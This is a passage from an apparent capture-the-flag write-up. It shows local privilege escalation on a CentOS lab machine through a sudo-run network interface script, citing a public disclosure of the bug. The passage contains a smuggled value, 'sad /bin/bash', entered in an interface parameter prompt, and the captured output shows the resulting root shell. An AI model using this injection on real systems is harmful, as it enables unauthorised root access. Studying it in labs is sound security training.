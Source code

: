 ```bash
/sbin/ifup guly0

```
- At the end ifup is being used to bring up a netwrok interface: guly0.
- There is a [blog](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) post regarding CentOS bug, where a regular user with a permission to execute a network script can escalate privileges.
- The user has to pass `\<anything\> \<cmd\>` in any of the user provided parameter.
```bash
[guly@networked network-scripts]$ sudo /usr/local/sbin/changename.sh
interface NAME:
sad
interface PROXY_METHOD:
sad /bin/bash
interface BROWSER_ONLY:
sad
interface BOOTPROTO:
sad
[root@networked network-scripts]# 

```
- Thus we can cat out the root.txt from /root.txt